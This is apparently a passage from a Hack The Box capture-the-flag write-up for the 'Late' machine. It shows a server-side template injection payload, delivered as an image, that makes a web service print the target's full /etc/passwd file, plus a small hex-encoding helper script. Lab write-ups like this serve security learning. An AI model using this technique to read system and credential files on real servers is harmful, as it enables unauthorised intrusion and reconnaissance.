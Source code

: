 We get:

![][image-payload]

Feeding this image payload to the webservice gives:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash
rtkit:x:111:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
avahi:x:113:116:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:114:117:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
saned:x:115:119::/var/lib/saned:/usr/sbin/nologin
colord:x:116:120:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:117:121:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
geoclue:x:118:123::/var/lib/geoclue:/usr/sbin/nologin
smmta:x:119:124:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:120:125:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin
```

The encoding can be eased with:

```shell
echo -n 'echo -n "$@" | xxd -p -u -c 1024' > encode.sh 
chmod +x encode.sh
```


[author-profile]: https://app.hackthebox.com/users/389926
[hacktricks]: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
[image-payload]: images/image-payload.png
[linpeas]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
[pspy]: https://github.com/DominicBreuker/pspy
[screenshot-frontpage]: images/screenshot-frontpage.png
[screenshot-webservice]: images/screenshot-webservice.png
[ssti-vector]: images/ssti-test.png
[webservice-url]: http://images.late.htb